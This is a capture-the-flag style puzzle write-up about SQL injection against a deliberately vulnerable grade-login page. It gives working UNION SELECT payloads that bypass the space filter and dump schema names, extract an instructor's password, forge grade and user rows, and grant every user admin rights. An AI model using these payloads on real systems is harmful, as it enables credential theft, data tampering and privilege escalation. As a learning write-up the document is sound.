






##Puzzle 4

First, if we log in normally, we see the table below (with Fs instead of As). There's not much we can take from this, other than perhaps that the instructor name `noam_chomsky` could be important later.



We solved this problem using SQL injection, which almost always start with `'` to mark the end of the current string and end with `--` which tells SQL to ignore the rest of the query. We also use `/**/` instead of just a space, since the query sanitization code is smart enough to get rid of spaces and even `%20`.

Most of our queries use `UNION SELECT` to replace the original query output. Using `UNION SELECT` queries means we first have to determine the number of columns in the main query. Inputting a random query with an error like below

sends us to an error page that provides more information about the database:
```
(psycopg2.errors.SyntaxError) syntax error at or near "Char" LINE 1: SELECT * FROM "user" WHERE username=''Char(45)--' ^ [SQL: SELECT * FROM "user" WHERE username=''Char(45)--'] (Background on this error at: http://sqlalche.me/e/13/f405)
```
This tells us there is a table named `user` that stores the user entries, and the main query obtains a row from `user` matching the inputted username. The next step is to determine the columns of the user table. There are 7 columns (found via the `ORDER BY` trick on this [cheatsheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)).

Now we know that there are 7 columns, we can ensure that our injection query has 7 comma-separated values. First, we get the column names of the `user` table from the `information_schema.columns` table by inputting the following query into the username box as shown earlier.
```
'/**/UNION/**/SELECT/**/0,STRING_AGG(column_name::text,','),null,null,null,null,null/**/FROM/**/information_schema.columns/**/WHERE/**/table_name='user'--
```

The reason we put 0 in the first value is because if we don't an error will display telling us it has to be an integer. Further messing around also shows us that the second value is what gets displayed after `Student:` once we log in. We get:



What is especially interesting to us is the column named `password_125f80a6`. It is clearly deliberately randomized between different puzzle hunters. Now if we recall from the start that our instructor is called `noam_chomsky`, let us put in another query to try to get the value of the `password_125f80a6` column for the user `noam_chomsky`.

```
crap'/**/UNION/**/SELECT/**/id,password_125f80a6,null,null,null,null,null/**/FROM/**/"user"/**/WHERE/**/username='noam_chomsky'--
```

Just like before, it displays the output of the second value after `Student:`



So now we know that the user `noam_chomsky` has the password `Wn-gbbWutxT0fyZlsV3c2rv4PIg=`, we can try logging in as instructor with these credentials.



Sure enough, instead of the typical grade home page, we see an admin page. When we scroll to the bottom, we see some of our grades (which were F)



crap'/**/UNION/**/SELECT/**/0,STRING_AGG(table_name::text,','),null,null,null,null,null/**/FROM/**/information_schema.tables--

user,grade,information_schema_catalog_name,attributes,applicable_roles,administrable_role_authorizations,check_constraint_routine_usage,character_sets,check_constraints,collations,collation_character_set_applicability,column_domain_usage,column_privileges,routine_privileges,column_udt_usage,columns,constraint_column_usage,role_routine_grants,constraint_table_usage,domain_constraints,domain_udt_usage,routines,domains,enabled_roles,key_column_usage,schemata,parameters,referential_constraints,sql_languages,role_column_grants,sequences,sql_features,sql_implementation_info,sql_packages,sql_sizing,sql_sizing_profiles,view_routine_usage,table_constraints,table_privileges,foreign_table_options,role_table_grants,view_table_usage,tables,triggered_update_columns,foreign_data_wrappers,triggers,views,udt_privileges,role_udt_grants,usage_privileges,data_type_privileges,role_usage_grants,user_defined_types,view_column_usage,element_types,column_options,foreign_server_options,foreign_data_wrapper_options,foreign_servers,user_mapping_options,foreign_tables,user_mappings


id,user_id,classname,grade,code,credits
crap'/**/UNION/**/SELECT/**/0,STRING_AGG(id::text,','),null,null,null,null,null/**/FROM/**/"grade"--

';INSERT/**/INTO/**/grade/**/VALUES/**/(15122,1,'signed_by_Noam_Chomsky',333,'lolHackMIT',69420)--

';INSERT/**/INTO/**/grade/**/VALUES/**/(12345,1,'Coolidge',-1000000,'Calvin',100000)--


id,username,year,gender,favorite_color,password_4d8f182b,admin
crap'/**/UNION/**/SELECT/**/0,STRING_AGG(admin::text,','),null,null,null,null,null/**/FROM/**/"user"--


';INSERT/**/INTO/**/"user"/**/VALUES/**/(2,'coolidge',2020,'F','gold','noam_chomsky',true)--

';UPDATE/**/"user"/**/SET/**/admin=true--